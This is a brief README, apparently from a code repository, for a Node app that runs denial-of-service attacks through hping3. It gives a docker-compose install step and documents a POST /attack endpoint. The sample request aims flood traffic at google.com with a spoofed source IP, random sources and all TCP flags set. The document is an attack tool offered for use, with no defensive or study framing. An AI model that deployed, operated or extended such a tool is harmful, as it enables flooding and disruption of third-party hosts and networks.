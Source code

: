 # This is a node app to perform dos attacks using hping3

## Install the app using docker

```bat
docker-compose up -d
```

### API to perform dos attack

**URL** : `/attack`

**Method** : `POST`

```json
{
    "hostAddr": "google.com",
    "count": 2,
    "mode": "icmp",
    "spoofIp": "130.201.20.1",
    "randSource": true,
    "destPort": 100,
    "tcpFlags": ["fin", "syn", "rst", "push", "ack", "urg"],
    "dataSize": 10,
    "packetSpeed": "flood",
    "timeout": 10
}
```

### Requirements:
 - **Default `mode` is `TCP`, but modes can be any one of the following:**
   * `icmp`
   * `rawip`
   * `udp`

 - **`count` > 10**